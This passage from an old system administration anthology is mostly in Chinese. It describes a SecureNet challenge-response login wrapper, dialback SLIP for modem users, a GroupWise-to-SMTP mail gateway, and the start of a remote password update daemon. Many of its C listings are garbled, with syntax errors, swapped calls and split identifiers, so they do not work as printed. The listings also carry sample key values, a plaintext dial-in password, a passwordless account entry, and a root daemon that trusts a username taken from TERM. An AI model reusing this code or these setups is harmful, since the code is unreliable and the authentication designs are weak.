在提示符下，snklogin 退出。否则，snklogin 执行标准登录。登录程序被修改以添加一个新的标志，-m，该标志将密码尝试的最大次数设置为 1。这一额外的安全级别阻止了可能绕过挑战/响应方案的破解者进入任何 UNIX 登录。登录的修改阻止了登录在密码失败后重新提示用户 ID；如果 UNIX 密码错误，会话将被切断。典型的登录过程在以下示例中显示。

### 列表 13.1（续）

```c
sprintf(message, "Correction from %s (%s)\n", from_host, from_ip);
sprintf(stderr, "%s", message);
syslog(LOG_NOTICE, message);

/* let some people straight through */
if (secured) {
    syslog(LOG_NOTICE, "Direct access allowed from %s (%s) for %s",
        from_host, from_ip, user ? user : "(unknown)");
    start_logging_secured;
    syslog(LOG_ERR, "Can't start login program");
    fprintf(stderr, "Problems starting %s...", PATH_LOGIN);
    quit();
}

/* open the key file */
if ((infile = fopen(PATH_KEYFILE, "r")) == NULL) {
    perror("keyfile");
    syslog(LOG_ERR, "Can't open key file: %m");
    fprintf(stderr, "Can't open the key file.\n");
    quit();
}

/* SNK userid supplied on command line */
if (user) {
    for (puser = isalpha(*p) | isdigit(*p); p++);
    strncpy(id, user, sizeof(id));
} else {
    for (idp = 0; !strlen(id); ) {
        fprintf(stderr, "\nSNK login: ");
        fflush(stderr);
        if (fgets(temp, sizeof(temp), stdin)
            alarm(SNK_TIMEOUT);
            if (fgets(id, sizeof(id), stdin))
                quit();
            alarm(0);
            for (p=id; isalpha(*p) | isdigit(*p); p++);
            *p='\0';
        } else {
            fprintf(stderr, "Timeout...\n");
            quit();
        }
    }
}
```

## 列表 13.1（续）

```
/* get the key associated with the userid and put the key into snkey */
while (fgets(message, sizeof(message), in_file) != NULL)
    if (strncmp(message, "99 %", 3) == 0) {
        sscanf(message, "99 %d %d %d %d %d %d %d %d %d %d",
               &oct1, &oct2, &oct3, &oct4, &oct5, &oct6, &oct7, &oct8, &cksum);
        for (i = 0; i < 8; i++) {
            if ((strncmp(id, id, 8)))
                snkey[0] = oct1;
                snkey[1] = oct2;
                snkey[2] = oct3;
                snkey[3] = oct4;
                snkey[4] = oct5;
                snkey[5] = oct6;
                snkey[6] = oct7;
                snkey[7] = oct8;
                break;
        }
    }

    *in_id = '\0';

fclose(in_file);

/* compute the challenge/response, give them the challenge,
   and get the response from the user */
installkey(snkey, key);
bindnsck(pdy, challenge, response);
printf("%s: %s\nEnter Response: ", challenge);

if (setjmp(env) == 0) {
    alarm(SIGNTIMIT);
    fgets(reply, sizeof(reply), stdin);
    alarm(0);
    for (p = reply; isalpha(*p); isdigit(*p); p++);
        *p = '\0';
} else
    fprintf(stderr, "Timeout...\n");
    quit();

for (i=0; i<7; i++)
    if (islower(reply[i]))
        reply[i] = toupper(reply[i]);

/* if the reply the user gives doesn't match with the response we compute,
   they're out of here! */
if (strncmp(response, reply, 8) != 0) {
    syslog(LOG_NOTICE, "Failed SN login for %s from %s (%s)", id, from_host, from_ip);
    fprintf(stderr, "Incorrect response...\n");
    quit();
}
else {
    start_login(secured);
    syslog(LOG_ERR, "Can't start login process: %m");
    fprintf(stderr, "Problems starting %s... PATH LOGIN:", ...);
}
quit();
}

timeout(sig)
int sig;
{
    signal(sig, SIG_IGN);
    signal(SIGALRM, timeout);
    longjmp(env, 1);
}
```


[robmack @ toppe]:.../secure/snK(274) telnet newsroom
Trying 129.177.21.131...
Connected to newsroom.bsc.no.
Escape character is '^]'.
4.3BSD Reno UNIX (newsroom.bsc.no) (ttyp4)
SNK login: robmack
Challenge is: 10534919
Enter Response: bf6cd089
Password:
4.3BSD Reno UNIX #42: Fri Oct 8 11:31:58 MET 1993
erase 'H', kill 'U', intr 'C'
[robmack @ newsroom]:/home/robmack(1)>

## Listing 13.1 (continued)

```
/* check if something is on the list */
allow(who, list)
char *who;
char *list[];
{
    char *p;
    for (p=list; p++ != list[]) {
        if (!strmatch(who, p))
            return(1);
    }
    return(0);
}

int strmatch (s1, s2)
char s1[], s2[];
{
    if (strlen(s1) != strlen(s2))
        return(0);
    return(strcmp(s1, s2, 0));
}

quit()
{
    fprintf(stderr,"closing connection\n");
    fflush(stderr);
    exit(1);
}

/* start a normal login process */
start_login(secure)
int secure;
{
    register char **argv;
    char **addarg();

    argv = addarg(0, "login");
    if (hflag) {
        argv = addarg(argv, "-h");
    }
    argv = addarg(argv, from_host);
    if (pflag) {
        argv = addarg(argv, "-p");
    }
    if (user) {
        if (secure) /* only allow one login attempt */
            argv = addarg(argv, "-m");
        argv = addarg(argv, "-t");
```

## Listing 13.1 (continued)

```
argv = addarg(argv, user);
else
  if (user-getenv("USER"))
    /* special login id */
    if (strcmp(SNKLOGIN, user))
      argv = addarg(argv, user);
  fprintf(stderr, "\n");
  execv(_PATH_LOGIN, argv);
}

char **addarg(argv, val)
register char **argv;
register char *val;

register char *cpp;

if (argv == NULL) {
  /* 10 entries, a leading length, and a null */
  argv = (char **)malloc(sizeof(*argv) * 12);
  if (argv == NULL)
    return(NULL);
  *argv++ = (char *)10;
  *argv = (char *)0;
}

for (cpp = argv; *cpp; cpp++)
  if (cpp == &argv[(int)argv[-1]])
    /* argv */
    *argv = (char *)((int)*argv + 10);
    argv = (char *)realloc(argv, (int)*argv + 2);
    if (argv == NULL)
      return(NULL);
  argv++;
  cpp = &argv[(int)argv[-1] - 10];

*cpp++ = val;
*cpp = 0;
return(argv);
```

## Listing 13.2  snk.h — part of the login wrapper program, snklogin.

```
/* special id which uses prishell */
#define SNKLOGIN "snk"
/* timeout value for prompts (in seconds) */
#define SNKTIMEOUT 180

/* modes that real_ipinfo() will return */
/* return the real hostname on the socket */
#define HOSTNAME 1
/* return the real ip address on the socket */
#define IP_ADDR 2
```

## Login via the Modem

通过调制解调器的拨号连接与网络连接以类似的方式受到保护。getty 程序通过串行线路或调制解调器管理登录。它监听调制解调器载波信号，并在尝试连接时启动登录程序。对于调制解调器登录，我们修改了 getty 程序（代码片段见 Listing 13.4），使其启动我们的登录包装程序而不是标准登录程序。如果挑战被正确回答，用户会看到正常的登录提示。如果挑战回答错误，getty 会立即退出，连接将被切断。

## Listing 13.3 An example /etc/keyfile, which stores a user's SNK user ID.

```
# This file contains the encryption keys that have been
# installed in the SecureNet key which users use to log
# into the system from remote sites.
# The format of the file is as follows:
#    userid val_1 ... val_8 checksum
#
# where: userid - is the name of the user that's
#        entered at the SNK login prompt.
#
#        val_1 to val_8 - are the 8 octal values that have
#        been entered into the SecureNet key.
#
#        checksum - is the checksum value provided by the
#        SecureNet key.
#
# Author: Mark Dapoz, Bergen Scientific Centre
#
# SNK key number 1
#    Owner: Mark Dapoz
md 115 136 014 154 147 060 136 042 0908a5
#
# SNK key number 2
#    Owner: Rob MacKinnon
robmack 001 156 155 167 077 172 024 133 a860d0
```

## Listing 13.4 A code fragment to modify getty to launch snklogin instead of the standard login.

```
#ifdef SECURE_LOGIN
# define PATH_LOGIN "/bin/snklogin"
#else
# define PATH_LOGIN "/bin/login"
#endif
.
.
.
#ifdef SECURE_LOGIN
    largs = addarg(0, "snklogin");
    if (tty==tynames(0)) {
        largs = addarg(largs, "-h");
        if (strstr(tty, "ttys")) {
            largs = addarg(largs, "dialup line");
        } else if (strstr(tty, "ttyp")) {
            largs = addarg(largs, "network");
        } else {
            largs = addarg(largs, "unknown location");
        }
        largs = addarg(largs, "-i");
        largs = addarg(largs, tty);
    } else {
        largs = addarg(largs, "-h");
        largs = addarg(largs, "unknown location");
    }
    largs = addarg(largs, "-c");
    largs = addarg(largs, "remote");
    largs = addarg(largs, user);
#else
/* Parse the input line from the user, breaking it at white spaces. */
    largs = addarg(0, "login");
    parse(user,largs);
#endif
/* Exec "login". */
execv(PATH_LOGIN,largs);
D1("%%s %%s not executable.",PATH_LOGIN,dbgtime());
exit(1);
```


The getty modifications were not as straightforward as the telnet modifications. The challenge/response technique is excellent for cases in which a human operator is at the other end of the connection and can respond to the challenge. With SLIP connections, the automated software cannot conveniently respond to the challenge string. So, in keeping with our security objectives, it was necessary in this case to implement dialback as the alternative security method. This dialback scheme also has the benefit that the office ends up footing the telephone bill for the connection — an advantage especially in Europe where telephone calls are expensive. A special bit of coding was necessary to allow dialback SLIP.

## SLIPping in

When a SLIP user ID logs into the system, the SNK challenge/response scenario is bypassed. To accomplish this, SLIP user IDs are placed in a unique SNK class of users. Assigning user classes of users is a feature of the shadow password scheme used in versions of 4.3BSD Reno or later. The fifth field of the shadow password file is an arbitrary ASCII string that represents the class name. When the SLIP user ID is set up, the class field is given the special string that triggers this code in getty. The difference between the security of this administrative setup and that of the firewall machine setup described earlier is that if, for example, an administrator forgets to set the class field, SLIP doesn’t work. In other words, the system security is not compromised by a mistake. The user is only denied a service.

Our dialback SLIP is relatively simple. The dialback code, sldial, was based on UUCP code. We used the UUCP dialing routines to handle most of the connection and modem details and wrote simple high-level code that looks to a file for mapping the SLIP user ID to SLIP parameters like dialback number, Maximum Transmission Unit (MTU) size, IP number, and so on. When the remote user initiates the call, the user will sign into the system using a specially allocated SLIP user ID. The login shell for the SLIP user ID is a simple wrapper, slcallback (Listing 13.5), which drops the current connection, resets the modem, and executes a dialing program, sldial (Listing 13.6). sldial then looks up the telephone number to callback, dials the modem and waits for a carrier. When the connection is established, sldial executes the sliplogin program, which looks up the session parameters from the /etc/slip.hosts file and establishes the SLIP session. A typical SLIP login is shown in the following example.

### Listing 13.5 slcallback.c — a login shell for the SLIP user ID that drops the current connection, resets the modem, and executes the sldial program.

```
#include <stdio.h>
#include <signal.h>
#include <strings.h>
#include <sys/types.h>
#include <pwd.h>

#define _PATH_SLDIAL  "/usr/bin/sldial"
#define CB_DELAY      30

main()
{
    struct passwd *pw_ent;
    char *pgrm, *name, *slhost;

    pw_ent=getpwuid(getuid());
    printf("You seem to be %s (%d)\n", pw_ent->pw_name, getuid());
    printf("Calling back\n\n\n");
    fflush(stdout);
    signal(SIGHUP, SIG_IGN);
    slhost=pw_ent->pw_name;

    /* some code to hang up the line */
    if (fork())
        exit(0);
    sleep(CB_DELAY);  /* time for IBM modems to hangup */

    /* just call sldial. It has everything set up */
    pgrm = _PATH_SLDIAL;
    name = ((name = strchr(pgrm, '/')) == NULL) ? pgrm : name + 1;

    execl(pgrm, name, "-f", "-d", "-S", slhost, slhost, (char *) 0);

    exit(0);
}
```

[robmack @ toppe]:.../secure/snk(268)> cu slip1
Connected
9600

4.3BSD Reno UNIX (slipsrv.bsc.no) (9600)
login: Srbm
Connection from unknown location (/dev/tty00)
Password:
4.3BSD Reno UNIX #42: Fri Oct 8 11:31:58 MET 1993
You seem to be Srbm (502)
Calling back
J%k1p D'D'D'D'D'

Disconnected
[robmack @ toppe]:.../secure/snk(269)>
Mar 16 10:32:13 toppe.bsc.no -slip login[13876]: attaching slip unit 0 for Stoppe

### Listing 13.6 sldial.c — a dialing program that looks up the phone number to callback, dials the modem, waits for the carrier, and executes slip login.

```
#include "uucp.h"

#define _PATH_SLIPLOGIN "/usr/sbin/slip login"
#define _PATH_PPPD "/usr/sbin/pppd"
/* amount of time we will wait for CONNECT */
extern int maxexpecttime, trycalls;  /* number of times to retry a line */

jmp_buf Sjbuf;  /*needed by uucp routines*/
extern void cleanup();

main(argc, argv)
int argc;
char *argv[];
{
int ret, i, sflag = 0, fflag = 0, fd;
char *name, *pgrm, *string, *shost;
/* for uucp callers, dialers feedback */
Verbose = 1;

shost = NULL;
name = ((name = strchr(argv[0], '/')) == NULL) ? argv[0] : name + 1;
strcpy(Progname, name);
ret = setservice("slip");
ASSERT(ret == 0, CL_OPEN, "Systems", ret);
```


# Listing 13.6 (continued)

```
trycalls = 1; /* default in uucp is 2 */
while ((i = getopt(argc, argv, "DS:x:ff:R:")) != EOF)
    switch (i) {
    case 'd':
        Debug = 9; /*turns on uucp debugging level 9*/
        break;
    case 'S':
        slhost = optarg;
        break;
    case 'x':
        Debug = atoi (optarg);
        break;
    case 'f':
        fflag++;
        break;
    case 'T':
        maxexpecttime = atoi (optarg);
        break;
    case 'R':
        trycalls = atoi (optarg);
        break;
    case '?':
        goto Usage;
    }

/* XXX: add the ability to specify phone number,
line, etc. like cu */
if (optind < argc && optind > 0) {
    sflag++;
    string = argv[optind];
    if (!verays(string))
        (void) fprintf(stderr, "Is: %s not in Systems file\n", Progname, string);
        cleanup(10);
    }

    strcpy(ProName, string, MAXBASENAME);
    ProName[MAXBASENAME] = '\0';
    if (slhost == NULL)
        slhost = RmtName;

if (!sflag) {
Usage:
    fprintf (stderr, "Usage: %s [-d] [-T seconds] [-R retries]\n", Progname);
    fprintf (stderr, "[-S sliphost] [SystemName]\n", Progname);
    fprintf (stderr, "\twhere:\n");
    fprintf (stderr, "\t'sliphost is the Slip Host keyword in slip.hosts\n");
    fprintf (stderr, "\t'systemName is the dial-out systemname\n");
    exit (1);
}
```

## Administering the SLIP Users

设置 SLIP 用户需要多个管理步骤。完成设置后，用户将能够连接到 SLIP 服务器，并由服务器在预定的号码上回拨用户。然后用户可以使用 Internet 和 LAN 上提供的所有服务。

第一步是在用户将用于登录 SLIP 服务器的用户 ID 下创建该用户 ID，并为新的用户 ID 分配密码。用户 ID 的实际名称并不重要，虽然按惯例所有 SLIP 登录 ID 都以大写 S 开头，后跟用户的姓名首字母（例如 Sm d）。用户 ID 必须以 /usr/sbin/slcallback 作为登录 shell，并且还必须具有 remote 类以便无需 SecureNet 身份验证即可登录。UID 和 GID 并不是很重要，只是 UID 必须在所有 SLIP 登录中唯一。SLIP 用户的 /etc/passwd 条目示例如下所示。

```
Srbm::500:9999:remote:0:0:Slip Callback (Rob Mackinnon): /tmp:/usr/sbin/slcallback
```

# Listing 13.6 (continued)

```
/* fork early so that the lockfile gets our pid */
if (iff lag && fork() > 0)
    exit(0);

fd = conn(Rmtname);
if (fd < 0) {
    delock(Rmtname);
    fprintf(stderr, "%s: FAILED: %s\n", Progname, UERROR TEXT);
    cleanup(101);
}
/* slip login expects the tty on stdin */
(void)dup2(fd, 0);

/* XXX: pick between slip login or pppd */
pgm = *Progname == 's' ? _PATH_SLIPLOGIN : _PATH_PPPD;
name = ((name = strchr(pgm, '/')) != NULL) ? pgm : name + 1;
exec l(pgmname, name, slhost, (char *) 0);
exit (1);
```

下一步是设置 UUCP Systems 文件，以便 slip login 可以找到适当的电话号码和聊天脚本。编辑文件 /etc/uucp/Systems.slip 并添加类似以下的行，视情况替换用户 ID、电话号码和聊天脚本。对于基于 PC 的用户调用系统，由于 PC 不能允许登录到自身，省略聊天脚本并希望另一端的 PC 真的是你认为的那个人。如果另一端是 UNIX 机器，尝试使用特殊的 SLIP ID 登录该机器，他们必须创建该 ID。示例条目如下。

```
# Slip line entries for callback
# Rob MacKinnon (home, unix)
Srbm Any D_slip1 9600 55544618 in:\r\d-in: Stoppe word: foobar
Srbm Any D_slip2 9600 55544618 in:\r\d-in: Stoppe word: foobar
```

# Listing 13.6 (continued)

```
void
cleanup(code)
int code;
{
    CDEBU G4,"call cleanup(%d)\r\n", code);
    /* XXX: might want to do more here ?? */
    rmlock(char*) NULL); /* remove lock files */
    exit(code);
}
/*
 * produce an assert error message input:
 * s1 - string 1
 * s2 - string 2
 * i1 - integer 1 (usually errno)
 * file - __FILE__ of calling module
 * line - __LINE__ of calling module
 */
void
assert(s1, s2, i1, file, line)
char *s1, *s2, *file;

char buf[80];

sprintf(buf1, "%s %s: %d\n", s1, s2);
VERBOSE(buf1,i1);
}
void logent()  /* so we can load ulockf() */
```


对于给定的用户 ID，Systems.slip 中的条目数量与可用的调制解调器线路数量相同。这样 sl dial 就可以依次尝试每条线路，以防其中一些线路正在使用中。

为 SLIP 连接分配一个 IP 地址。按照惯例，它被赋予 slipNNN 形式的名字（其中 NNN 用用户的姓名首字母代替）。一旦名称和 IP 地址选定，域名服务器数据库就会用这些信息进行更新。文件 /etc/slip.hosts 使 slip 登录能够将 SLIP 用户 ID 映射到给定的 SLIP IP 地址、子网掩码、报头压缩方案以及 SLIP 连接的 MTU 大小。示例条目如下所示。

```
# login local-addr remote-addr mask mtu opt1 opt2
#
#                               (normal,
#                                compress,
#                                nocmp)
Srbm 129.177.21.15 129.177.21.131 0xffffffff 1500 normal
```

## 结论

我们描述的设置已运行约一年。大多数用户认为，在出行前必须获取 SNK 以及在登录时必须回答挑战所带来的不便，远不及能够从世界几乎任何地方访问系统的便利性。作为管理员，我们欣赏拨回 SLIP 的优势以及能够在家中访问工作系统的能力。

## 第 14 章

### 简单安全：
GroupWise/SMTP 连接

*Jonathan Feldman*

以安全的方式将 Internet 电子邮件引入你的局域网，并不一定意味着存在 TCP/IP 防火墙。事实上，如果你在局域网上运行另一种协议，例如 IPX/SPX 或 VINES，就可以使用翻译网关作为“邮件快递员”，以便只分发邮件协议。这有效地使你的其余网络保持安全——即使你在局域网上使用 TCP/IP。

想象两名快递员交换绝密包裹。理想情况下，作为快递机构的管理者，你希望这些快递员说不同的语言，这样他们只能交换包裹，而不能以其他方式进行交流。

如果没有资金购买防火墙、没有自行构建防火墙的专业知识，甚至如果你怀疑防火墙的复杂性，这种方法可能是一个不错的选择。正如 Chesnick 和 Belovitz 在《Firewalls and Internet Security》（Addison Wesley，1994）中所观察到的：“所有程序都有漏洞……大型程序的漏洞比其规模所暗示的还要多……安全程序也有安全漏洞……暴露的机器应运行尽可能少的程序；运行的程序应尽可能小[且简单]。”

使用小型且简单的应用网关无疑是比将关键任务的 TCP/IP 网络接入 Internet 更好的选择。例如，我们面向外部世界的 Web 服务器根本不应该在我们的局域网上；相反，它位于我们的 Internet 段上，并且会一直留在那里。

我们使用 Novell 的 GroupWise（原 WordPerfect Office 的）SMTP（简单邮件传输协议）网关产品作为我们的邮件网关。它可配置为在一端接口上运行 SPX/IPX，在另一端接口上运行 TCP/IP，从而有效地使内部和外部网络之间的数据包路由成为不可能。内部守护进程软件将 TCP/IP 的套接字 25（邮件）通过其内部解析器路由，并以其自己的专有格式从另一端输出。GroupWise 产品的工作方式与其它 SMTP 网关类似（图 14.1）。

再次强调，只有邮件由此网关处理。要做其他事情，你必须获取另一种类型的网关或安装防火墙。（其它类型的网关，例如用于 NetWare 的 NOV*IX，可对 Web 客户端等执行类似的处理。）这个设置的好处是，即使网关因软件漏洞或恶意设计而被攻破，最可能的危险也只是虚假邮件——令人烦恼但几乎不构成威胁。

**图 14.1  SMTP 网关在独立接口上运行 TCP/IP 和 SPX/IPX 以处理邮件。**




## 实现

我们购买了一份 WordPerfect Office SMTP 网关的拷贝，需要安装在一台独立的 PC 上。我们翻新了一台运行在 16MHz 上的 IBM PS/2 80386，内存为 4Mb。为了准备安装，我们安装了所需的两张网卡：一张 Pronet 10 卡（一种专有的 10Mb 令牌环技术）和一张 IBM 16Mb Token-Ring 卡。无需硬盘，因为我们计划将大部分驱动程序、守护进程和程序从 Novell 文件服务器运行。

我们与网关一起使用的 TCP/IP 软件是 Novell 的 LANWorkPlace，它在 Novell 的 ODI 驱动程序下运行。由于 Pronet 10 卡使用的是 .obj（链接）版本的 IPX，我们对将其与 ODI 驱动程序一起使用有点担心，但一切都运行良好。我们使用 Novell 的 NETX 来引导工作站，并从文件服务器加载其他所有内容（包括 ODI 驱动程序和 TCP/IP）【图 14.2】。

我们按如下方式构建了 NetWare 设置。机器从软盘驱动器加载 IPX 和 NETX，并登录到网络。无需密码，因此可以无人值守重启。我们使用 SYSCON 为登录设置了站点限制，有效地将无密码登录限制为 SMTP 网关的 MAC 地址和 IPX 网络号。 （不要使用 TCP/IP 卡的 MAC 地址！）此外，我们使用 SYSCON 将登录添加到组 MACHINES，该组通常在我们的本地登录脚本中使用，以避免“按任意键继续”提示等。授予的唯一受托人权限是访问 WordPerfect Office Domain 目录（例如，F:\WPDOMAIN）和登录的主目录（我们将其映射为 H: 驱动器的根目录）。

```
CONFIG.SYS
  device=himem.sys
  device=emm386.exe ram
  files=80
  buffers=40
  dos=high,umb

AUTOEXEC.BAT:
  prompt $p$g
  rem gen rd IPX via Pronet-10:
  ipx
  netx ps=chat
  f:
  login chat/smtp
```



令人惊讶的是，一切第一次就成功了！好吧，一切第二次就成功了，一旦我们意识到我们忘记将网关机器添加到我们的 DNS（域名服务）数据库中。一旦 DNS 重建，从我们局域网上的一台工作站发送给我的朋友 Jim 的测试邮件 chat.smtp:(jreich@decbert.ece.cmu.edu) 实际上到达了！

但我们的惊讶是短暂的。那种写电子邮件地址的方法很快就会让人厌倦。而且我们可以想象从 WordPerfect Office 的各种用户那里接听支持电话：“有多少个括号？引号是在外面还是在里面？先是 chat 还是 smtp？这个 smtp 到底是什么东西？我以为我们有 Internet 邮件！”

## 改进

幸运的是，WPO 易于配置并支持“简化直通寻址”。使用 ad.exe 程序，我们创建了一个新的域，类型为“Foreign”，域名为“Internet”。然后我们编辑了我们的主域 Chat，将其链接到我们的新 SMTP 网关。

我们选择了“消息服务器配置”，然后选择“网络链接”。在域连接对话框中，我们选择了新建的域“Internet”，并选择“编辑链接”。在“方式”对话框中，我们选择了“网关”，然后选择“SMTP”。起初，我错误地认为这会传播到所有子域。并非如此。您必须为所有子域执行此操作。

重新配置后，我可以用地址 Internet:jreich@decbert.ece.cmu.edu 给 Jim 发送邮件。

一旦发件邮件流程稳定且易于使用，我们就研究了收件邮件的改进。来自外部到 user@wpo.co.chatham.ga.us 的邮件如果用户姓名中没有特殊字符则可以正常工作。不幸的是，对我们来说，我们的大多数用户确实有 SMTP 网关认为的“特殊字符”（即下划线）。例如，我们的 WPO 管理员最初将我的用户名设置为“J_FELDMAN。这意味着外部用户必须发送邮件到 J##J#FELDMAN@wpo.co.chatham.ga.us。WPO 网关对井号（#）的处理方式类似。几次令人沮丧的与供应商的电话，试图拼写出我们的用户名，让我们确信这种方法行不通。

幸运的是，WPO 还支持“本地 SMTP 网关别名”。从 ad.exe 程序中，我们选择了用户所属的域，按“Enter”键编辑该用户名，然后在“编辑用户”对话框中点击“网关别名”。从“网关”对话框中，我们创建了一个新的别名，类型为“SMTP”。我们在“本地网关地址”中输入用户的外部别名。例如，我选择了域 CHAT，用户 J_FELDMAN，并输入“jonathan”作为本地网关地址


你还可以为 SMTP 网关定义别名，这允许你为外部地址定义系统范围的别名。例如，我们为萨凡纳市包含了别名。只需在 ad.exe 程序中编辑 SMTP 网关对象，并创建一个用户。将这个“伪用户”命名为你想要的系统范围别名即可。你可以添加其他字段，例如电话号码或职位，这些字段 WPO 系统的用户可以查看。

## Figure 14.3 A modified user's login script that calls smtpbat at bootup.

```
NETWARE LOGIN SCRIPT:
map root H:=drv2:smtp
map j:=drv2:wpdomain/wpgate/smtp40
drive h:
exit "smtp.bat"

SMTP.BAT:
@echo off
REM reject broadcast messages that hang me up!
cast off all
REM don't even try CloseUP for remote manglement;
REM it doesn't work with the gateway.
REM nostt
cd odi
REM Do TCP/IP for Internet ONLY.
call lanwp
cd ..
j:
REM Start the WPO mail daemon, then the gateway program.
cd \wpdomain\wpgate\smtp40
smtpdn.exe /hn-wpo.co.chatham.ga.us /gw-J:\wpdomain\wpgate\smtp40
smtp /gw-J:\wpdomain\wpgate\smtp40

LANWP.BAT
rem batch file to load TCPIP ODI drivers
lsl
osh39xr
tcpip
set NAME=wpo
```

## Figure 14.4 The ODI driver setup for external card.

```
H:\ODI\NET.CFG:
Link Support
  Max Stacks 5
  buffers 10 4170
  mempool 4210

:: Note that this is a specialized NET.CFG for the WPO Gateway
:: application.
LINK DRIVER OSH39XR
  SPEED 16
  INT 5
  PORT 5A20
:: DMA doesn't work with PS/2's and Proteon 4/16 TR... set to 0.
  DMA 0
  MAX FRAME SIZE 4210
  CABLE STP
  DMACLOCK BUS
  FRAME TOKEN-RING_SNAP

Protocol: TCPIP
:: Please use your OWN addresses!
  ip_address      167.195.160.7
  ip_netmask      255.255.255.0
  ip_router       167.195.160.1
  tcp_sockets     24
  udp_sockets     8
  raw_sockets     1
  nb_sessions     4
  nb_commands     8
  nb_adapter      0
  nb_domain
  PATH            TCP_CFG H:\NET\tcp

H:\NET\TCP\RESOLV.CFG:
:: Please use your OWN domain and nameserver:
domain co.chatham.ga.us
nameserver 167.195.160.6
(Leave all other files in the Lan WP TCP directory as they are)
```

然后选择“Gateway Alias”，“Create”，类型为“SMTP”，然后输入外部用户的 Internet 地址。例如，对于 Jim，我会在 SMTP 网关对象中创建一个名为“Jimbo”的用户，其网关别名类型为“SMTP”，本地网关别名为 jreich@decbert.ece.cmu.edu。

## Other Applications

自我们实施该系统以来，另一个部门（不在我们的局域网上，但已连接到 Internet）也加入了 IPX 到 IP 的行列，并为 NetWare 实施了免费软件“Mercury/Pegasus”电子邮件系统。该系统的工作方式与本章详细描述的系统非常相似。

现在，虽然我们使用完全不兼容的 NetWare 电子邮件系统，但通过 Internet 这一共同平台，我们可以自由地交换邮件。Pegasus 和 WordPerfect Office 都具有二进制附件的自动 uu 编码和 uu 解码功能，因此我们除了可以交换可爱的短消息外，还可以交换文件。这一功能不仅消除了与该远程站点的一些电话来回，还帮助了各种故障排除工作。

## Remote Password Update

David Collier-Brown

如果你拥有不止一台机器，在多个地方更改密码可能会很麻烦。如果你有两台或三台以上的机器并且有多名用户，逐台更新密码容易出错。修复人们的密码，甚至是自己的密码，都会浪费本可用于更有用工作的宝贵时间。一种允许你在服务器上一次性更改密码，然后让所有客户端机器从中更新的程序会更高效。本章介绍了一个我用来简化这些任务的远程密码更新程序。

### Alternatives

有许多方法可以为多台机器更新密码文件，包括 sneakernet。大多数方法都相当复杂。其中一种（Kerberos）要求你专门用一台机器来管理密码和“票据”。另一种（Yellow Pages）假设你拥有的每台机器都会在单一程序的控制下存储所有主要配置表。


这并不是我通常在 UNIX 上期望看到的简单、单一、优雅的解决方案。因此，几年前，我着手提供一种简单的机制，它仅使用普通的 UNIX 网络设施（rlogin 和 rsh）。这里的自制程序名为“Blue Pages”，最初是为了让我在大学教学实验室中避免使用 Yellow Pages（YP）而编写的。除了不安全之外，在那个时代，当全班同学尝试更改密码时，YP 的速度糟糕得令人难以置信。此后，我已经重写了该程序三次（参见侧边栏“权衡”），并且发现这种方法对于家里的三台机器同样有效，对于 40 台机器的商业研发公司也同样有效。而且它可以在无法运行 YP 的机器上运行。

该程序只有两个部分：第一部分安排每个人在“主”服务器上更改他们的密码，第二部分安排其他机器获取更新后的密码文件。第一部分使用 rlogin，第二部分使用 rsh、NFS 或 ftp。

## 第一部分

安排每个人在主服务器上更改密码看起来似乎很简单：他们只需在主服务器上运行 passwd 程序即可。事实上，这部分是最困难的，我在找到真正不需要比 rlogin 和 /bin/passwd 更多的东西之前进行了多次实验。我松了一口气，因为我没有时间编写像 YP 或 Kerberos/Hesiod 那样庞大的程序。

## 权衡

我尝试过这种设置的几种其他变体，包括我更喜欢的一种——即 /bin/passwd 负责所有提示，而 /etc/passwd 程序完全没有特权。

在我看来，那才是正确的方法。唉，这需要 /etc/passwd 程序将自身设置为用户的正确 UID 和 GID，这本应是普遍可行的，但事实并非如此。因此，我用更大的可移植性换取了简单性。

还有一个明确的权衡，即 /bin/passwd 以 root 身份运行，并将用户名作为参数传递给它。在某些厂商的系统中，这会启用一个为 root 用户准备的“特殊待遇”：对使用不良密码的检查被关闭。毋庸置疑，这是不好的。然而，UNIX 的一个常见惯例是永远不要做超出必要的事情。（参见 B. W. Kernighan 和 R. Pike 的《The UNIX Programming Environment》，Prentice-Hall，NJ，1984 年，该书介绍了这一点和其他一些 UNIX 传说。）由于 /etc/passwd 执行在 /bin/passwd 找到的内容，你可以安装一个更好的 /bin/passwd 来强制执行你喜欢的任何策略，而不会对其他程序产生任何影响。

最后一个要求是你的系统允许 rlogin 登录到无密码账户，这在少数版本的 UNIX 中已被禁用。我在这里没有做出任何权衡：我只是不将这些机器用作密码服务器；它们作为客户端是可以的。

## Listing 15.2 The server passwd program executes /bin/passwd with a username, and has /bin/passwd prompt for the new password.

```
/*
 * passwd -- the daemon that looks after changing passwords
 * from afar. Run as a login shell, passed the userid via
 * the TERM environment variable.
 */
#include
#include

char *ProgName;
#define ERR (-1)
#define YES 0
#define NO 1
#define MAXLINE 255

/*ARGSUSED*/
main(argc, argv) int argc; char *argv[]; {
    char *remoteName, *getenv();
    struct passwd *p, *getpwnam();
    unsigned short getuid(), geteuid();
    int rc;

    ProgName = argv[0];
    (void) fprintf(stderr,"Connected to passwd server...\n");
    /* Become root if you aren't already. */
    if (seteuid(0) != geteuid()) == ERR ) {
        (void) fprintf(stderr,"%s: unable to change to root, halting\n", ProgName);
        (void) exit(1);
    }

    if ((remoteName=getenv("TERM")) == NULL) {
        (void) fprintf(stderr,"%s: no TERM variable supplied, halting\n", ProgName);
        (void) exit(1);
    }
    if ((p= getpwnam(remoteName)) == NULL) {
        (void) fprintf(stderr,"%s: no userid %s known, halting\n", ProgName,remoteName);
        (void) exit(1);
    }
```


